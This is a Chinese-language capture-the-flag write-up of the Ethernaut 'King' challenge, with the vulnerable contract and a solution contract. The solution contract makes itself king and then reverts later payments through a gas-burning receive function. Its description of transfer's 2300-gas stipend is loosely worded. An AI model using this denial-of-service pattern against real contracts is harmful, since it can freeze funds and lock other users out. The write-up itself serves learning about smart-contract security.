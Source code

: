 ```yaml
---
title: Ethernaut - King
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-22
---
```


这个游戏的Key！

题目：一个简单的游戏，谁发送更多的ether谁就变成新的king！在这样的活动中，被推翻的国王会得到新的奖励，在这个过程中赚一点以太币！就像庞氏骗局一样 xD。

<!--more-->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

	// 初始owner和king，以及初始的prize
    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }
	
	// 可以收钱
    receive() external payable {
        require(msg.value >= prize || msg.sender == owner); // 如果发的钱更多，成为新的king！
        
        payable(king).transfer(msg.value); // king收到转过来的钱
        king = msg.sender; // 更新king和prize
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

当我提交评测的时候，他会回收king，也就是转入更多的钱把自己变回king？

我要做的并不是变成king，而是让他无法回收king。

！我想到个方法，如果能让我称王后，所有后续receive都无法执行都会revert就行。但是好像做不到）

查到了！

> transfer 有一个内置的安全机制，它将转账金额限制为 2300 gas。这个限制确保了接收方合约在执行转账时不会进行复杂的操作，防止某些合约被恶意攻击，或者耗尽大量 gas 导致重入攻击漏洞。



噢噢，就是transfer的接收方收到钱后，执行 receive 函数，不能消耗超过2300的gas。

所以我写一个复杂的合约，让他称王！别人都改不了了！



# Transfer的安全机制

transfer 有一个内置的安全机制，它将转账金额限制为 2300 gas。这个限制确保了接收方合约在执行转账时不会进行复杂的操作，防止某些合约被恶意攻击，或者耗尽大量 gas 导致重入攻击漏洞。





# 解题

我写了个函数：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackKing {
    bool public flag;

    address payable public owner;

    constructor() {
        flag = false;
        owner = payable(msg.sender);
    }

    function withdraw() external payable {
        owner.transfer(getBalance());
    }

    receive() external payable {
        if (flag) {
            // 写一个会消耗大量gas的函数
            uint256 sum = 0;
            for (uint i = 0; i < 100000000; i++) {
                sum = sum + uint(i);
            }
        }
    }

    function setFlat(bool _flag) public {
        flag = _flag;
    }

    function beKing(address payable target) external payable {
        target.transfer(getBalance());
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

但是这个 beKing 有问题！2300gas其实是个非常小的数字，King合约的receive也超过了这个限制！所以不能使用Transfer，但是可以用 call 来代替 Transfer。

所以改成：

```solidity
function beKing(address payable target) external payable {
    (bool success, ) = target.call{value: address(this).balance}("");  // 使用 call 替代 transfer
    require(success, "Transfer failed");
}
```





# 总结

Transfer转账有很强的gas限制，通常只用来给一个普通账户转账。

可以用 call 进行超过限制的转账！

```solidity
(bool success, ) = target.call{value: address(this).balance}("");  // 使用 call 替代 transfer
require(success, "Transfer failed");
```



> Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.
>
> In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).



